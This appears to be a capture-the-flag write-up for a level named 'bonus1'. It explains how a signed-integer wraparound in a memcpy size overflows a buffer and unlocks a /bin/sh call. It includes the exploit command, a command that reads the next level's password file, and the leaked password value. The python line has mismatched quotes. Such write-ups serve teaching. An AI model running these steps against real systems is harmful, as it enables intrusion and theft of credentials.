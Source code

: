 # Bonus1

We can see a call to `/bin/sh` but some conditional jumps prevent its execution   
If after passing it to `atoi()` the first argument is superior or equal to 9, the process will exit   
Otherwise it will use that number * 4 as a size parameter to `memcpy()` `argv[2]` into a buffer   

The last conditional jump compares a dword value placed 40 bytes after the start of the buffer    
This means we need the `memcpy()` size to reach at least 44 bytes in length

The jle instruction treats the input as signed, this means we can enter a negative signed integer that will equate 44 after being multiplied by 4
```
./bonus1 -1073741813 $(python -c "print 'A' * 40 + 'FLOW")
cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
